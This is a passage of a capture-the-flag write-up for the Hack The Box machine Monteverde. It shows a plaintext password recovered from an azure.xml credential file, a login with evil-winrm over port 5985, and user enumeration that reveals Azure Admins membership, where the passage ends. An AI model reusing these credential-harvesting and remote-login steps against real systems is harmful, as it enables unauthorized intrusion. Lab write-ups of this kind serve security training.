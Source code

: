 I found a `azure.xml` file in `mhope` directory downloaded to my machine.

## Getting User Shell

```bash
root@w0lf:~/CTF/HTB/Boxes/Monteverde# cat azure.xml 
��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
```

It reveals a password for us. It can be user `mhope` password. We know port `5985` open so I tried `evil-winrm`

It worked I logged in with `mhope : 4n0therD4y@n0th3r$`

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-monteverde/Untitled%203.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-monteverde/Untitled%203.png)

## Privilege Escalation

When checking about the user we got. It reveals he is in the group of `Azure Admins`.

```php
*Evil-WinRM* PS C:\> net user mhope
User name                    mhope
Full Name                    Mike Hope
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/2/2020 3:40:05 PM
Password expires             Never
Password changeable          1/3/2020 3:40:05 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script                 
User profile                 
Home directory               \\monteverde\users$\mhope
Last logon                   1/18/2020 11:05:46 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Azure Admins         *Domain Users         
The command completed successfully.
```
